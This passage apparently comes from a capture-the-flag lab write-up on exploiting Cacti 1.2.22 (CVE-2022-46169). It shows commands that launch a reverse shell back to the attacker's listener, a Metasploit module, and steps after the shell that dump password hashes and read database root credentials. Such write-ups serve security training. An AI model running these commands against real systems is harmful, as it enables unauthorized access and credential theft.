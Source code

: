 <br>

## Road to User

Cacti 1.2.22
- https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
- https://www.exploit-db.com/exploits/51166
- https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
- https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit/blob/main/cacti.py

```shell
python3 cacti.py -u http://10.10.11.211/ --LHOST=10.10.16.19 --LPORT=9001

python3 cacti.py -u http://10.10.11.211/ -i 10.10.16.19 -p 9001
```

msfconsole
```shell
msf > use exploit/linux/http/cacti_unauthenticated_cmd_injection
```

<br>

### Further enumeration

```shell
www-data@50bca5e748b0:/var/www/html$ cat cacti.sql
[...]
INSERT INTO user_auth VALUES (1,'admin','21232f297a57a5a743894a0e4a801fc3',0,'Administrator','','on','on','on','on','on','on',2,1,1,1,1,'on',-1,-1,'-1','',0,0,0);
INSERT INTO user_auth VALUES (3,'guest','43e9a4ab75570f5b',0,'Guest Account','','on','on','on','on','on',3,1,1,1,1,1,'',-1,-1,'-1','',0,0,0);
[...]
```
> This was a rabbit hole after decypting the admin password. As it turns out that admin:admin is not working in http://10.10.11.211/.

Getting access to mysql database.
```shell
www-data@50bca5e748b0:/$ cat include/config.php
[...]
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
```

Connecting to Mysql database
```shell
www-data@50bca5e748b0:/$ mysql -h db -u root -p cacti

show tables;
show columns from settings_user;
show columns from user_auth;
```
